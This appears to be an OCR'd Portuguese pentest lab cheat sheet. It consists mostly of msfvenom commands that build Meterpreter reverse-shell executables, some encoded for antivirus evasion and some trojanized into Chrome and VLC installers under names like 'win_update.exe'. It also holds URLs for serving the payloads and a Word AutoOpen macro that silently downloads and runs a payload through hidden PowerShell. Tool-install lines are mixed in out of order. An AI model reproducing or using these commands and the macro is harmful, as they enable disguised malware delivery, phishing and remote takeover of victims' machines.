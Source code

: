 msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -e x86/shikata_ga_nai -i 10 -f exe -o payload_encoded.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -f exe -o ~/win_update.exe

msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.137 LPORT=443 -f exe -x ChromeSetup.exe -o chrome_infectado.exe

msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<seu_ip> LPORT=443 -f exe -x vlc_setup.exe -o vlc_infectado.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -f psh-cmd -o payload.ps1

python3 -m http.server 8080

http://192.168.1.137:8080/vlc_infectado.exe

http://192.168.1.137:8080/documento_infectado.rtf

http://192.168.1.137:8080/microsoft_update.page.zip

 SharpHound.exe -c All

https://github.com/BloodHoundAD/SharpHound/releases


mkdir -p ~/lab/scans ~/lab/exploits ~/lab/reports ~/lab/scripts



sudo apt install kali-linux-large virtualbox-guest-x11 build-essential -y

sudo msfdb init

sudo systemctl start postgresql
sudo systemctl enable postgresql

sudo apt install bloodhound neo4j gobuster seclists wireshark john hashcat nmap burpsuite -y


sudo dpkg -i Nessus-xxx.deb
sudo systemctl start nessusd


Sub AutoOpen()
    On Error Resume Next
    Dim objShell As Object
    Set objShell = CreateObject("WScript.Shell")
    
    ' Comando para baixar e executar o payload
    objShell.Run "powershell -ExecutionPolicy Bypass -NoProfile -WindowStyle Hidden -Command " & _
                "Invoke-WebRequest -Uri 'http://<SEU_IP>:8080/payload.exe' -OutFile 'C:\Users\Public\update.exe'; " & _
                "Start-Process 'C:\Users\Public\update.exe'", 0, False
    
    Set objShell = Nothing
End Sub

https://www.microsoft.com/pt-br/software-download/windows10ISO


